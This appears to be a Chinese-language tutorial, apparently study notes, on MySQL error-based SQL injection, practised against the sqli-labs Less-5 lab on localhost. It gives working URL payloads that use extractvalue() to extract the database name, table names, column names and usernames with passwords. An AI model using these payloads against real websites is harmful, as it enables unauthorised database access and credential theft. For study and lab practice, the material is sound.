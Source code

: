 ### 报错注入

**报错注入是一种****利用网站的报错信息来获取数据库信息**的注入方式。

**该方法的原理是在错误信息中执行SQL语句，利用数据库的某些机制制造错误条件，使得查询结果能够出现在错误信息中。**

**在MySQL中，执行一个正常的SQL语句，不会返回查询的内容，但是会打印一条报错语句，告诉你有一个SQL语法错误。利用该特性，构造SQL语句，让其返回数据库的相关信息。**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1,2,databse()--+
```

![1686741574661](image/1.3报错注入/1686741574661.png)

![1686741598115](image/1.3报错注入/1686741598115.png)

![1686744596624](image/1.3报错注入/1686744596624.png)

![1686744627371](image/1.3报错注入/1686744627371.png)

![1686744640082](image/1.3报错注入/1686744640082.png)


#### **利用extractValue()报错注入**

**使用extractvalue查询xml里面的内容**

```
select extractvalue(doc,'/book/author/surname')from xml;
```

```
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```

![1686741645198](image/1.3报错注入/1686741645198.png)

![1686741655402](image/1.3报错注入/1686741655402.png)

** 0x7e     代表~             也可使用  '~' 代替**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select database()))),3 --+
//查询库名 
```

![1686741758932](image/1.3报错注入/1686741758932.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
//查询该库内所有的表名
```

![1686741750543](image/1.3报错注入/1686741750543.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3 --+
```

![1686741729712](image/1.3报错注入/1686741729712.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password) from users),1,30))),3 --+
//报错注入一次只能显示30个字符，所以使用substring函数继续显示。
```

![1686741738602](image/1.3报错注入/1686741738602.png)

#### **updatexml函数**

![1686744438757](image/1.3报错注入/1686744438757.png)

![1686743807264](image/1.3报错注入/1686743807264.png)

